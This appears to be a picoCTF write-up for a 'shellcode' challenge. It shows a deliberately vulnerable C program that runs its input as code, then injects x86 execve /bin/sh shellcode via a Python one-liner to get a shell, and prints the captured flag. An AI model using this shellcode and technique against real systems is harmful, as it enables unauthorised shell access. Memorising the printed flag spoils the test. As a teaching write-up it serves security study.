 # shellcode
## Question
>This [program](files/vuln) executes any input you give it. Can you get a shell? You can find the program in `/problems/shellcode_3_09e0c5074980877d900d65c545d1e127` on the shell server. [Source](files/vuln.c).

## Hint
>Maybe try writing some shellcode?

>You also might be able to find some good shellcode online.

# Solution
The code doesn't do anything special. It is waiting for a user input and then displays it.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter a string!");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();
     
  return 0;
}
```

Let's find a shellcode to run a shell. Go to this [website](http://shell-storm.org/shellcode/) and get a shellcode that is relevant to the target platform (Linux/x86) and that does what we're looking for (a shell). This [one](http://shell-storm.org/shellcode/files/shellcode-827.php) looks good. Let's extract the shellcode:

~~~~
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
~~~~

Now, we want to send this payload to `vuln` as user input, so let's try that:
~~~~
$ python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'" | ./vuln 
Enter a string!
1�Ph//shh/bin��PS��

Thanks! Executing now...
~~~~

It says that this is executing, but the program immediately closes. This is because we are capturing the input that the shell is waiting to receive. To fix that, let's execute `cat` just after:
~~~~
$ (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"; cat) | ./vuln 
Enter a string!
1�Ph//shh/bin��PS��

Thanks! Executing now...
ls
flag.txt  vuln	vuln.c
cat flag.txt
picoCTF{shellc0de_w00h00_7f5a7309}
^C
~~~~

# Flag
`picoCTF{shellc0de_w00h00_7f5a7309}`

